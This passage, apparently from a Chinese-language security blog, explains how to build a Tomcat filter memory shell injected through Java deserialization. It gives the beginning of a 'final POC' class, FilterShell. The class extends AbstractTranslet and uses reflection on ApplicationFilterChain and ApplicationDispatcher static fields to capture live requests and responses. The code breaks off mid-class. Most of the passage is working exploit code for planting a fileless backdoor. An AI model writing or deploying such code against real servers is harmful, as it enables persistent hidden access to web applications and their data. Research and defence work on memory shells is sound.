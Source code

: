 具体原因我也不太清楚，猜测由于后边需要进行反序列化加载字节码所以需要继承 AbstractTranslet，但继承了它之后便不能继承 HttpServlet，无法获取 doFilter 方法中所需请求导致

所以这里采用的方法是实现 Filter 接口，并直接将把恶意类 FilterShell 构造成`Filter`

```bash
Filter filter = new FilterShell();
```

而 doFilter 方法便不再包含在 filter 实例中，而是直接在 FilterShell 类中实现，这样便也能实现常规 filter 内存马构造恶意类的效果

最终 POC：

```bash
package memoryshell.UnserShell;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Context;
import org.apache.catalina.core.*;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;
import javax.servlet.*;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Modifier;
import java.util.Map;

public class FilterShell extends AbstractTranslet implements Filter {
    static {
        try {
            Field WRAP_SAME_OBJECT_FIELD = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
            Field lastServicedRequestField = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
            Field lastServicedResponseField = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");

            //修改static final
            setFinalStatic(WRAP_SAME_OBJECT_FIELD);
            setFinalStatic(lastServicedRequestField);
            setFinalStatic(lastServicedResponseField);

            //静态变量直接填null即可
            ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(null);
            ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(null);


            if (!WRAP_SAME_OBJECT_FIELD.getBoolean(null) || lastServicedRequest == null || lastServicedResponse == null){
                WRAP_SAME_OBJECT_FIELD.setBoolean(null,true);
                lastServicedRequestField.set(null, new ThreadLocal());
                lastServicedResponseField.set(null, new ThreadLocal());
            }else {
                ServletRequest servletRequest = lastServicedRequest.get();
                ServletResponse servletResponse = lastServicedResponse.get();

```